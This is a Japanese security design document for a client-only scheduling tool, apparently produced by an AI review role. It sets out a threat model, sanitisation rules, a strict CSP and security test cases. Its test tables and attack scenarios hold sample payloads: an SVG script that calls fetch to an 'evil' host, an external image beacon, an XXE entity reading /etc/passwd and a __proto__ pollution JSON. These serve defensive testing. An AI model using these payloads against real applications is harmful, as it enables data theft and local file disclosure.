

# gr-scheduler セキュリティ設計書 (Security Design)

- 文書ID: SEC-DESIGN-001
- 対象システム: gr-scheduler (single-HTML, client-only, WYSIWYG マルチバー日程表ツール)
- 版: 0.1.0 (MVP / Pre-release)
- 作成: security-reviewer
- 最終更新: 2026-07-18
- 基準: OWASP Top 10 (2021), CWE/SANS Top 25
- トレース元要求: IO-L1-006, ITEM-L1-008, ITEM-L2-001, TOOL-L2-001, NFR-L1-001, NFR-L1-009

> **重要 (人間による最終確認の推奨):**
> 本書は AI (security-reviewer) による設計レビュー成果物であり、**補助的なもの**である。
> 秘密情報を扱う日程表を第三者と共有しうる用途 (透かし機能の存在がそれを示唆する) を考慮し、
> リリース前に**人間のセキュリティ専門家によるレビュー**、特に SVG サニタイズ実装と CSP の
> 実機検証を受けることを強く推奨する。

---

## 1. 概要と適用範囲

### 1.1 システムの性質とセキュリティ上の意味

gr-scheduler は以下の性質を持つ。これらは攻撃面を大きく規定する。

| 性質 | セキュリティ上の含意 |
|------|----------------------|
| ビルド後は単一 `.html` (NFR-L1-001) | サーバーが存在しない。**サーバー側脆弱性 (SQLi, サーバー認証, セッション) は MVP の対象外** |
| 完全クライアント実行 (vanilla TS + SVG) | 攻撃面はブラウザ内。信頼境界は「アプリ本体コード」と「外部から取り込むデータ」の間 |
| ネットワーク非依存・外部 CDN 禁止 (NFR-L1-001) | ネットワーク経由の攻撃 (CSRF, MITM, サプライチェーン CDN 汚染) は MVP では発生しない |
| データは File I/O + localStorage (IO-L1-004/005) | 永続層はユーザーのローカル環境。**主たる脅威は「悪意ある入力ファイルを開くこと」** |
| Import 対象: JSON / MSPDI XML / SVG / PNG (IO-L1-006, ITEM-L1-008) | これらが**唯一かつ最大の攻撃面** |

### 1.2 本書が扱う範囲 / 扱わない範囲

- **扱う:** 信頼できない Import データによる XSS/インジェクション/XXE/プロトタイプ汚染/DoS、
  アプリ自身の DOM 取り扱い、CSP、localStorage のプライバシ、透かしのセキュリティ的位置づけ。
- **扱わない (MVP 対象外, 将来フェーズで扱う):** ネットワーク認証・認可、サーバー側権限、
  E2E 暗号通信。これらは item60 (NFR-L1-009) の共同編集フェーズで初めて発生するため、
  §7 で「設計予約」としてのみ言及する。

---

## 2. 脅威モデル (Threat Model)

### 2.1 資産 (Assets)

| 資産ID | 資産 | 価値 |
|--------|------|------|
| A-1 | ユーザーの日程データ (アイテム・分類・依存・予実) | 機密でありうる (透かし要求 TOOL-L1-007 が示す通り、秘密の日程を扱う) |
| A-2 | ブラウザセッション / DOM 実行コンテキスト | XSS 実行によりページ内の全データが漏洩・改ざんされうる |
| A-3 | localStorage 内の自動保存データ (IO-L1-005) | 同一オリジンの JS から読取可能。作業中データの永続コピー |
| A-4 | ローカルユーザー名 (透かし用, TOOL-L2-001) | 認証情報ではないが、個人を示す入力テキスト |

### 2.2 信頼境界 (Trust Boundary)

**信頼境界は「アプリのビルド済みコード」と「実行時に取り込む外部データ」の間に引く。**

- **信頼する:** ビルド時にバンドルされた自身の TS/CSS/アセット (単一 HTML に含まれるもの)。
- **信頼しない:** ユーザーが Import するあらゆるファイル (JSON / MSPDI XML / SVG / PNG)、
  および localStorage から復元する内容 (前回セッションで汚染された可能性、または別アプリ/
  手動編集による改ざんの可能性を想定する)。

**Trust Boundary (信頼境界図):**



信頼できないデータは必ず Import Validator / Sanitizer (信頼境界の関所) を通過し、
無害化された内部モデルのみが描画へ流れる。

### 2.3 STRIDE-lite 分析 (クライアント専用に絞る)

サーバーレスのため Spoofing/Repudiation/Elevation はネットワーク文脈では発生しない。
MVP で意味を持つのは主に **Tampering** と **Information Disclosure**、および可用性 (DoS) である。

| STRIDE | 脅威シナリオ | 該当性 (MVP) | 主対策 (§参照) |
|--------|--------------|--------------|----------------|
| **S**poofing | 認証がないため MVP では非該当。透かしユーザー名は自己申告 (§6) | 限定的 | §6 (透かしは証跡であり認証でない旨明記) |
| **T**ampering | 悪意ある SVG/XML/JSON を Import → DOM 汚染・モデル改ざん | **高** | §3.1-3.5 |
| **R**epudiation | ローカル単独動作のため否認防止は要求外。透かしが弱い証跡 | 低 | §6 |
| **I**nformation Disclosure | XSS で A-1/A-3 のデータを外部送信 (ただし CDN 禁止 + CSP で送信先を封じる) | **高** | §3.1, §4 (CSP connect-src) |
| **D**oS | 巨大ファイル / 深いネスト / 億単位ノードの Import でブラウザ凍結 | **中** | §3.6 (リソース上限) |
| **E**levation of Privilege | サーバー権限がないため MVP では非該当 (item60 で発生) | 非該当 | §7 |

### 2.4 主要な攻撃シナリオ (Attack Scenarios)

1. **AS-1 スクリプト入り SVG アイコン:** 攻撃者が `<script>` や `onload=` を含む SVG を
   用意し、被害者に「このアイコンを取り込んで」と渡す。被害者が Import すると SVG が DOM に
   挿入されスクリプトが実行 → localStorage の日程データを窃取。→ 対策 §3.2 (ITEM-L2-001)。
2. **AS-2 XXE 入り MSPDI XML:** `<!DOCTYPE ... SYSTEM "file:///etc/passwd">` を含む XML を
   Import させ、外部エンティティ解決でローカルファイル/内部情報を読み出す。→ 対策 §3.4。
3. **AS-3 プロトタイプ汚染 JSON:** `{"__proto__": {"polluted": true}}` を含む JSON を
   Import させ `Object.prototype` を汚染、後続処理のロジックを乗っ取る。→ 対策 §3.3。
4. **AS-4 innerHTML 経由の格納型 XSS:** 略称 (ITEM-L1-009) や透かしユーザー名 (TOOL-L2-001)
   に `` を仕込み、描画時に `innerHTML` で挿入されると実行。→ §3.1。
5. **AS-5 DoS Import:** 数百 MB のファイルや深くネストした XML/JSON で UI を凍結させる。→ §3.6。

---

## 3. OWASP 対応コントロール (クライアントサブセット)

各コントロールは実装者が直接参照できるよう具体的に記述する。

### 3.1 XSS 防止 — 描画は安全 API のみ (最優先)

**方針: `innerHTML` / `outerHTML` / `insertAdjacentHTML` / `document.write` を信頼できない
データに対して使用することを全面禁止する (IO-L1-006 の明示要求)。**

- テキスト表示 (略称 ITEM-L1-009、透かし文字列 TOOL-L2-001、プロパティ値) は
  **`textContent`** または SVG の **`<text>` ノード + `textContent`** で挿入する。
- 要素生成は `document.createElementNS(SVG_NS, ...)` + `setAttribute` で行う。
- 属性へユーザー値を入れる場合、**URL 系属性 (`href`, `xlink:href`) には信頼できない値を
  入れない**。色値は `#RRGGBB` / 既定パレットキー / `rgb()` の正規表現で検証してから設定する
  (ITEM-L1-006 の「フルカラー指定」)。
- 絵文字アイコン (ITEM-L1-005) は 1 コードポイント (grapheme) に制限し `textContent` で描画。
- **禁止パターン (実装レビューで検出する):**

**title: 禁止する描画パターン**

```typescript
// BANNED: never do this with imported or user-entered data
element.innerHTML = imported.label;
element.insertAdjacentHTML("beforeend", imported.svgFragment);

// REQUIRED: safe DOM construction
const textNode = document.createElementNS(SVG_NS, "text");
textNode.textContent = imported.label; // no markup interpretation
group.appendChild(textNode);
```

`textContent` はマークアップを解釈しないため、`` はただの文字列として
表示される。これが AS-4 への根本対策である。

- **CWE 参照:** CWE-79 (XSS), CWE-116 (不適切な出力エンコーディング)。
- **OWASP:** A03:2021 Injection。

### 3.2 SVG Import サニタイズ (ITEM-L2-001, IO-L1-006)

**SVG は XML であり実行可能な要素/属性を持つため、Import 時に必ず無害化する。**
無害化は「ブラウザに描画させる前」に行う。推奨手順:

1. ファイルテキストを **`DOMParser().parseFromString(text, "image/svg+xml")`** で解析する
   (この時点では DOM ツリーであり、まだ document に接続しないためスクリプトは実行されない)。
   解析エラー (`<parsererror>` ノード) があれば拒否する。
2. 得られたツリーを**許可リスト方式 (allowlist)** で走査し、以下を除去/拒否する:

| 除去/拒否対象 | 具体例 | 理由 |
|---------------|--------|------|
| `<script>` 要素 | `<script>...</script>` | 任意コード実行 |
| イベントハンドラ属性 `on*` | `onload`, `onclick`, `onmouseover`, `onbegin` 等 | 任意コード実行 |
| `<foreignObject>` | HTML 埋め込み | HTML 経由の XSS |
| `<use>`/参照の外部 URL | `href="http://..."`, `xlink:href="file://..."` | 外部リソース読込・SSRF 類似・情報漏洩 |
| `javascript:` / `data:` の危険 URL | `href="javascript:..."` | スクリプト実行 |
| `<a>` の `href` (外部/スクリプト) | `<a href="javascript:...">` | クリックで実行 |
| `<image>` の外部参照 | `xlink:href="http://evil/..."` | ビーコン (情報漏洩)・NFR-L1-001 違反 |
| DOCTYPE / 外部エンティティ | `<!DOCTYPE svg SYSTEM ...>` | XXE (§3.4 と共通) |
| CSS 内の `url()` 外部参照, `@import` | `<style>@import url(...)</style>` | 外部読込 |

3. **許可する要素のみ残す** (推奨: `svg, g, path, rect, circle, ellipse, line, polyline,
   polygon, text, tspan, defs, linearGradient, radialGradient, stop, title, desc` 等の
   純描画要素)。許可リスト外の要素・名前空間 (例: 非 SVG namespace) は除去する。
4. すべての属性を走査し、`on*` 属性、`href`/`xlink:href` で外部/`javascript:` を指すもの、
   `style` 内の `url()`/`expression`/`@import` を除去する。インラインの安全な `style`
   (色・寸法) は許可してよいが、可能なら属性ベースへ正規化する。
5. サニタイズ後のツリーを **`XMLSerializer`** で文字列化し、内部モデルへ格納する。
   **描画時は `innerHTML` ではなく、サニタイズ済みノードを `importNode`/`appendChild`** で
   SVG キャンバスへ挿入する (または安全化済み文字列を再度 `DOMParser` で読み直して
   ノードとして挿入)。

> **実装注:** 独自サニタイザはバイパスされやすい。**DOMPurify を SVG プロファイル
> (`USE_PROFILES: {svg: true, svgFilters: true}`, `FORBID_TAGS`, `FORBID_ATTR`) で使用する
> ことを強く推奨する。** 単一 HTML 制約 (NFR-L1-001) 上、DOMPurify は CDN ではなくバンドルへ
> インライン化する (npm 依存としてビルドに含める)。ライセンス確認は license-checker へ依頼。
> 自前実装を選ぶ場合は本節の許可リストを網羅し、`<parsererror>`・名前空間混入・
> 属性大文字小文字・エンティティ経由の難読化を必ずテストすること。

- **CWE:** CWE-79, CWE-79 の SVG 亜種, CWE-611 (XXE)。**OWASP:** A03。

### 3.3 JSON Import — スキーマ検証 + プロトタイプ汚染防御 (IO-L1-006)

- **スキーマ検証:** `JSON.parse` 後、内部モデルの型に対して**明示的スキーマ検証**を行う
  (推奨: Zod / Ajv などをバンドル、または手書きの型ガード)。未知フィールドは無視、
  必須欠落・型不一致は**拒否してエラー通知** (IO-L1-001 往復整合を壊さない範囲で)。
- **プロトタイプ汚染防御 (AS-3):**
  - `JSON.parse` の **reviver** で `__proto__` / `constructor` / `prototype` キーを
    検出したら破棄する。
  - 取り込んだ値を内部オブジェクトへ展開する際、**`Object.create(null)` のプレーンマップ**や
    スキーマで定義した既知キーのみへの明示コピーを用い、`Object.assign(target, untrusted)` の
    ような全展開を避ける。

**title: JSON reviver によるプロトタイプ汚染防御**

```typescript
const FORBIDDEN_KEYS = new Set(["__proto__", "constructor", "prototype"]);

function safeParse(jsonText: string): unknown {
  return JSON.parse(jsonText, (key, val) => {
    if (FORBIDDEN_KEYS.has(key)) return undefined; // drop dangerous keys
    return val;
  });
}
// after parse: validate against the internal schema (Zod/Ajv/type guard),
// reject on mismatch instead of coercing.
```

- **CWE:** CWE-1321 (プロトタイプ汚染), CWE-20 (不適切な入力検証)。**OWASP:** A03, A08。

### 3.4 XML / MSPDI XXE 対策 (IO-L1-006, IO-L1-002)

- ブラウザの **`DOMParser().parseFromString(xml, "application/xml")`** を使う。
  **ブラウザの DOMParser は既定で外部一般エンティティ・外部 DTD を解決しない**ため、
  Node.js 系の脆弱な XML パーサ (libxml バインディング等) を**使用しない**方針を明記する。
- それでも **DOCTYPE を含む XML は拒否**する (防御的多層化): パース前に文字列を検査し
  `<!DOCTYPE` / `<!ENTITY` を含むものは**取り込まずエラー通知**する。これにより XXE と
  billion-laughs (エンティティ展開 DoS) の双方を封じる。
- パース結果に `<parsererror>` があれば破損として拒否 (IO-L1-002 の「破損データを取り込まない」)。
- MSPDI → 内部モデルのマッピングは**許可された既知要素のみ**を読み取り、未知要素は
  警告として通知 (IO-L1-002)。値は §3.1 の安全描画・§3.3 の型検証を経由させる。

**title: DOCTYPE 事前拒否による XXE / エンティティ展開防御**

```typescript
function rejectDoctype(xmlText: string): void {
  if (/<!DOCTYPE/i.test(xmlText) || /<!ENTITY/i.test(xmlText)) {
    throw new ImportRejectedError("DOCTYPE/ENTITY not allowed (XXE guard)");
  }
}
```

- **CWE:** CWE-611 (XXE), CWE-776 (エンティティ展開 / billion laughs)。**OWASP:** A05:2021。

### 3.5 PNG Import — 不透明ラスタとして検証 (ITEM-L2-001, ITEM-L1-008)

- **マジックバイト検証:** 先頭 8 バイトが PNG シグネチャ
  `89 50 4E 47 0D 0A 1A 0A` であることを確認。不一致は拒否 (ITEM-L1-008: 非対応形式はエラー)。
- **寸法検証:** IHDR チャンク (バイト 16-24) から width/height を読み、`0 < w,h <= MAX_DIM`
  (例: 4096px) を確認。異常値は登録拒否 (ITEM-L2-001 の「寸法不正な PNG は拒否」)。
- **不透明ラスタとして扱う:** PNG は解釈せず、`data:image/png;base64,...` として
  `<image>` の埋め込みに使う (外部参照にしない)。**PNG 内のメタデータ (tEXt/zTXt 等) は
  実行されないが、情報を持ちうるため描画に用いず無視する。**
- MIME/拡張子だけを信用せず、**中身のマジックバイトで判定**する (拡張子偽装対策)。
- **CWE:** CWE-434 (危険な形式のアップロード相当), CWE-20。

### 3.6 リソース上限 — DoS-by-huge-import 対策 (AS-5)

Import は同期処理で UI スレッドを止めうるため、**取り込み前に上限チェック**する。

| 上限 | 推奨値 (実装時に調整) | 対象 |
|------|----------------------|------|
| 最大ファイルサイズ | JSON/XML: 20 MB, SVG: 5 MB, PNG: 10 MB | 全 Import |
| 最大アイテム数 | 例: 20,000 (NFR-L1-002 の中規模 ~1000 の余裕上) | JSON/MSPDI |
| 最大 XML/JSON ネスト深さ | 例: 64 | パース後の走査 |
| 最大 SVG ノード数 | 例: 5,000 | サニタイズ走査中にカウント |
| PNG 最大寸法 | 4096 x 4096 px | §3.5 |

上限超過は**取り込まずエラー通知**し、部分適用しない (トランザクション的に全か無か)。
大きい正当データは分割 Import を案内する。

- **CWE:** CWE-400 (リソース枯渇), CWE-770 (制限なきリソース割当)。

---

## 4. Content Security Policy (単一 HTML ビルド向け)

単一 HTML (NFR-L1-001) は外部オリジンへ一切依存しないため、**極めて厳格な CSP** を
`<meta http-equiv="Content-Security-Policy">` としてビルド時に HTML へ埋め込む
(サーバーヘッダは使えないため meta タグで配布)。

**title: 推奨 CSP (単一 HTML, ネットワーク遮断前提)**

```html
<meta http-equiv="Content-Security-Policy" content="
  default-src 'none';
  script-src 'self';
  style-src 'self' 'unsafe-inline';
  img-src 'self' data:;
  font-src 'self' data:;
  connect-src 'none';
  object-src 'none';
  base-uri 'none';
  form-action 'none';
  frame-ancestors 'none';
">
```

- **`connect-src 'none'`** が最重要。万一 XSS が発生しても **fetch/XHR/WebSocket/Beacon で
  データを外部送信できない** (情報漏洩 Info-Disclosure の遮断)。NFR-L1-001 の「ネットワーク非依存」
  と完全に整合する。
- **`default-src 'none'` / `object-src 'none'` / `base-uri 'none'`** で余計な読込・
  base タグ乗っ取りを封じる。
- **`img-src data:`** は PNG を base64 埋め込みで描画するため必要 (§3.5)。SVG アイコンは
  `` ではなくインライン SVG ノードとして描画するため、`data:` を SVG 実行経路にしない。
- **インラインスクリプト方針 (vite-plugin-singlefile との整合):**
  - vite-plugin-singlefile は JS を `<script>` にインライン化するため、素朴には
    `script-src 'self'` では実行されず `'unsafe-inline'` が要求される。
  - **`'unsafe-inline'` は避けること。** 対応策の優先順位:
    1. **推奨: ハッシュ (`'sha256-...'`) 方式。** ビルド後にインライン script の SHA-256 を
       算出し `script-src 'self' 'sha256-...'` に列挙する (Vite の singlefile 出力は
       スクリプトが確定するため、ビルド後処理で自動注入する)。
    2. 次善: **nonce 方式**。ただし静的 HTML では nonce を毎回変えられないため、配布物では
       ハッシュ方式が適する。
  - **`style-src 'unsafe-inline'` の扱い:** SVG/UI で動的スタイルを多用するため当面許容するが、
    可能な限り属性ベース・クラスベースへ寄せ、将来 `'unsafe-inline'` 除去を目標とする
    (バックログ化)。style 経由 XSS は script 実行に直結しないが、`connect-src 'none'` と
    合わせてリスクを限定する。
- **X-Frame-Options 相当:** `frame-ancestors 'none'` でクリックジャッキングを防止
  (meta では `X-Frame-Options` は効かないため CSP で代替)。
- **HSTS:** HTTP 配信でないため MVP では非該当。ホスティング配布する場合はホスティング側で設定。

---

## 5. localStorage の取り扱い (IO-L1-005)

- **秘密情報を localStorage に保存しない。** MVP には認証トークン等が存在しないため
  該当リスクは低いが、**将来 (item60) の JWT を localStorage に置かない**方針を今から明記する
  (§7)。
- 保存対象は日程データ (A-1) と UI 設定、透かしユーザー名 (A-4) のみ。localStorage は
  同一オリジン JS から平文で読める前提であり、**共有 PC ではデータが残存する**ことを
  プライバシ注記としてユーザーへ提示する (復旧確認ダイアログ IO-L1-005 のタイミングが好機)。
- **復旧時の再検証:** localStorage から復元する内容も**信頼できない入力として扱い** (§2.2)、
  §3.1 の安全描画と §3.3 のスキーマ検証を経由させる。前回セッションの汚染や手動改ざんを想定する。
- localStorage キーはアプリ固有プレフィックス (`grsched.`) を付け、破損時はサイレントに
  破棄せず復旧確認で「破損のため復元不可」を通知する。
- **CWE:** CWE-922 (機微情報の不適切な保存) を将来に向けて予防。

---

## 6. 透かしのセキュリティ / プライバシ注記 (TOOL-L1-007, TOOL-L2-001)

- **透かしはアクセス制御ではなく「証跡マーキング」である。** Web 会議での無断キャプチャの
  抑止・事後追跡を狙うもの (RATIONALE: item59) であり、閲覧・編集の制限機能ではない。
- **透かしの「ログインユーザー名」は認証 ID ではない。** MVP に認証は存在せず、
  TOOL-L2-001 の通りユーザー名は**ローカルで入力/保持する自己申告テキスト (A-4)** である。
  よって**なりすまし (Spoofing) を防げない**ことを設計上の限界として明記する。
- **透かし文字列も XSS 経路になりうる (AS-4)。** ユーザー名・日時は必ず §3.1 の安全描画
  (`<text>` + `textContent`) で SVG 出力 (IO-L1-003) に埋め込むこと。SVG Export 時にも
  `innerHTML` 連結でなく DOM 構築 + `XMLSerializer` を用いる。
- **プライバシ:** 透かしは個人名を成果物へ焼き込むため、SVG を第三者共有すると氏名が
  伝播する。ユーザーが表示/非表示を制御できること (TOOL-L2-003) がプライバシ制御を兼ねる旨、
  UI で示す。

---

## 7. 将来フェーズのセキュリティ (item60 / NFR-L1-009) — 設計予約のみ

item60 の共同編集 (E2E) と行単位権限が導入されると、**MVP で対象外としたネットワーク脅威
(Spoofing/Repudiation/Elevation, CSRF, MITM) が初めて現実化する。** 以下は**設計予約であり
MVP では実装しない** (NFR-L1-009: Wont)。ただし後付け困難な口を確保する意図で列挙する。

| 将来コントロール | 概要 | MVP での準備 |
|------------------|------|--------------|
| JWT 認証 | サーバー認証。トークンは **localStorage ではなく HttpOnly Cookie or メモリ**保持 (XSS 耐性) | 認証 ID とローカルユーザー名を分離できるデータ層抽象を確保 (NFR-L1-009) |
| E2E 暗号通信 | ブラウザ間 E2E 暗号での共同編集 | データ層抽象 (data 層フック) にシリアライズ境界を設ける |
| 行単位権限の**サーバー側**強制 | 参照専用/編集権限を**サーバーで**強制 (クライアント判定は信用しない) | 権限フック (per-row permission hook) の口を UI/モデルに用意 |
| CSP の緩和管理 | サーバー通信時は `connect-src` を許可オリジンに限定 (self + API) | CSP をビルド変数化し、フェーズで切替可能に |

> **設計原則:** クライアント側の権限チェックは UX 用であり、**セキュリティ境界は必ずサーバーに置く**
> (item60 実装時)。この原則を 30-architecture の権限フック設計に反映すること。

---

## 8. セキュリティ要求 / コントロール チェックリスト (トレーサビリティ)

各コントロールを、それが支える仕様要求へマップする。実装レビュー・security-scan-report の
検証項目として用いる。

| # | コントロール | 対応要求 | OWASP/CWE | 検証方法 |
|---|--------------|----------|-----------|----------|
| C-01 | `innerHTML` 等を信頼できないデータへ使用禁止 | IO-L1-006, ITEM-L2-001 | A03 / CWE-79 | 全 `innerHTML`/`insertAdjacentHTML` 使用箇所の静的検査 = 信頼データのみ |
| C-02 | 描画は `textContent`/`createElementNS`/`setAttribute` | IO-L1-006, ITEM-L1-009 | A03 / CWE-116 | XSS ペイロード入り略称が文字列表示されること |
| C-03 | SVG サニタイズ (script/on*/foreignObject/外部参照除去) | ITEM-L2-001, IO-L1-006 | A03 / CWE-79 | script + onload 入り SVG が実行されないこと (ITEM-L2-001 VERIFICATION) |
| C-04 | SVG 外部/`javascript:` URL 除去 | ITEM-L2-001 | A03 / CWE-79 | `href="javascript:"`/`http://` が除去されること |
| C-05 | JSON スキーマ検証・不正型拒否 | IO-L1-006, IO-L1-001 | A08 / CWE-20 | 不正型 JSON が拒否されエラー通知 (IO-L1-006 VERIFICATION) |
| C-06 | プロトタイプ汚染防御 (`__proto__` 破棄) | IO-L1-006 | A08 / CWE-1321 | `__proto__` 入り JSON で `Object.prototype` が汚染されないこと |
| C-07 | XXE 対策 (DOCTYPE/ENTITY 拒否, 安全パーサ) | IO-L1-006, IO-L1-002 | A05 / CWE-611 | 外部エンティティ入り XML が解決されないこと (IO-L1-006 VERIFICATION) |
| C-08 | エンティティ展開 DoS 防御 | IO-L1-006 | A05 / CWE-776 | billion-laughs XML が展開されず拒否されること |
| C-09 | PNG マジックバイト + 寸法検証 | ITEM-L2-001, ITEM-L1-008 | CWE-434 / CWE-20 | 偽装拡張子/寸法不正 PNG が拒否 (ITEM-L2-001 VERIFICATION) |
| C-10 | Import 形式を SVG/PNG に限定 | ITEM-L1-008 | CWE-20 | JPEG/GIF がエラー通知 (ITEM-L1-008 VERIFICATION) |
| C-11 | リソース上限 (サイズ/ノード/深さ) | IO-L1-006 (DoS) | CWE-400 / CWE-770 | 巨大/深ネスト Import が UI を凍結させず拒否 |
| C-12 | 厳格 CSP (`connect-src 'none'` 等) | NFR-L1-001, IO-L1-006 | A05 / CWE-1021 | CSP 適用で外部送信・frame 埋込が遮断されること |
| C-13 | インライン script はハッシュ許可 (`'unsafe-inline'` 回避) | NFR-L1-001 | A05 / CWE-79 | ビルド出力の CSP に script ハッシュが列挙されること |
| C-14 | 外部 CDN/ネットワーク依存ゼロ | NFR-L1-001 | A06 / CWE-829 | ネット遮断で全機能動作 (NFR-L1-001 VERIFICATION) |
| C-15 | localStorage に秘密を保存しない・復元時再検証 | IO-L1-005 | CWE-922 | 復元データが安全描画/スキーマ検証を経由 |
| C-16 | 透かしは証跡でありアクセス制御でない旨を明記 | TOOL-L1-007, TOOL-L2-001 | A01 (将来) | 設計/UI に免責注記が存在 |
| C-17 | 透かし文字列の安全描画 | TOOL-L2-001, IO-L1-003 | A03 / CWE-79 | ユーザー名 XSS ペイロードが SVG 出力で実行されないこと |
| C-18 | 依存パッケージ SCA (DOMPurify 等) | セキュリティ要求 (CLAUDE.md) | A06 / CWE-1104 | `npm audit` Critical/High = 0 |
| C-19 | シークレットのハードコード禁止 | セキュリティ要求 (CLAUDE.md) | A07 / CWE-798 | シークレットスキャンで検出 0 |
| C-20 | 権限境界はサーバー側 (将来) | NFR-L1-009 | A01 / CWE-602 | 30-architecture に権限フック設計 |

---

## 9. セキュリティテストケース (実装後の検証用)

implementation フェーズ以降、以下を tests/ の security スイートとして実装し、
結果を `project-records/security/` に security-scan-report として記録する。

| TC-ID | 入力 | 期待結果 | 対応コントロール |
|-------|------|----------|------------------|
| ST-01 | `<svg><script>fetch('http://evil')</script></svg>` | script 除去・ネットワーク発生なし | C-03, C-12 |
| ST-02 | `<svg onload="alert(1)">` | `onload` 除去・実行なし | C-03 |
| ST-03 | `<svg><image href="http://evil/beacon.png"/>` | 外部参照除去 | C-04, C-14 |
| ST-04 | `<svg><foreignObject><script>...` | foreignObject 除去 | C-03 |
| ST-05 | `<!DOCTYPE svg [<!ENTITY x SYSTEM "file:///etc/passwd">]>` 入り XML | 取り込み拒否・エンティティ非解決 | C-07 |
| ST-06 | billion-laughs XML | 拒否・展開なし | C-08 |
| ST-07 | `{"__proto__":{"polluted":true}}` | `({}).polluted === undefined` | C-06 |
| ST-08 | 必須欠落/型不一致 JSON | 拒否・エラー通知 | C-05 |
| ST-09 | 略称 = `` を配置・描画 | 文字列表示のみ | C-02 |
| ST-10 | 透かしユーザー名に XSS ペイロード → SVG Export | 実行なし・文字列化 | C-17 |
| ST-11 | 拡張子 .png だが中身 JPEG | 拒否 | C-09 |
| ST-12 | .gif / .jpeg アイコン | エラー通知 | C-10 |
| ST-13 | 5000x5000 PNG / 100MB ファイル | 拒否 (上限超過) | C-11 |
| ST-14 | CSP 適用下で `fetch` 実行を試みる注入 | CSP により遮断 | C-12 |
| ST-15 | ネット遮断で全機能動作 | 外部取得ゼロで動作 | C-14 |

---

## 10. 自動スキャン方針 (implementation フェーズ以降)

CLAUDE.md セキュリティ要求に従い、以下を実行し結果を `project-records/security/` に記録する。
**現時点 (security-design フェーズ) では `src/` が未実装のため未実行。ツール実行可否は
実装フェーズで再確認する。**

- **SAST:** CodeQL (GitHub Actions)。特に `innerHTML` 代入・DOM sink を重点ルール化。
- **SCA:** `npm audit --json` / Snyk。DOMPurify 等の追加依存ごとに実行。Critical/High = 0 が
  品質ゲート (CLAUDE.md 品質目標)。
- **シークレットスキャン:** git-secrets / truffleHog をコミット前フックに。単一 HTML 配布物に
  資格情報が混入しないことを確認 (C-19)。

---

## 11. 未解決事項 / 実装者への申し送り

1. **DOMPurify 採用可否:** 単一 HTML へのインライン化 (NFR-L1-001) とライセンス
   (Apache-2.0/MPL デュアル) の確認を license-checker へ依頼する必要がある。不採用時は
   §3.2 許可リストの自前実装を厳格にテストすること。
2. **CSP ハッシュ注入のビルド組込み:** vite-plugin-singlefile 出力に対する SHA-256 自動注入の
   ビルドスクリプトを実装 (C-13)。`'unsafe-inline'` を残さないこと。
3. **`style-src 'unsafe-inline'` 除去:** 段階的除去をバックログ化。
4. **人間レビュー:** 冒頭の注記の通り、SVG サニタイズと CSP は人間のセキュリティ専門家の
   実機確認を推奨する。

---

## 付録: 参考マッピング (OWASP Top 10 2021 該当性)

| OWASP | MVP 該当 | 本書対応 |
|-------|----------|----------|
| A01 Broken Access Control | 将来 (item60) | §7, C-16, C-20 |
| A02 Cryptographic Failures | 低 (秘密を保存しない) | §5, §7 |
| A03 Injection (XSS 含む) | **高** | §3.1-3.5, C-01..04, C-17 |
| A04 Insecure Design | 中 | 本書全体 (脅威モデル駆動設計) |
| A05 Security Misconfiguration | 中 | §3.4, §4 (CSP), C-07, C-12 |
| A06 Vulnerable Components | 中 | §3.2 (DOMPurify), §10 SCA, C-14, C-18 |
| A07 Auth Failures | 将来 (item60) | §6, §7 |
| A08 Data Integrity Failures | **高** | §3.3, C-05, C-06 |
| A09 Logging Failures | 低 (ローカル) | 構造化ログ (CLAUDE.md) は運用時 |
| A10 SSRF | 低 (§3.2 で外部参照除去) | C-04 |
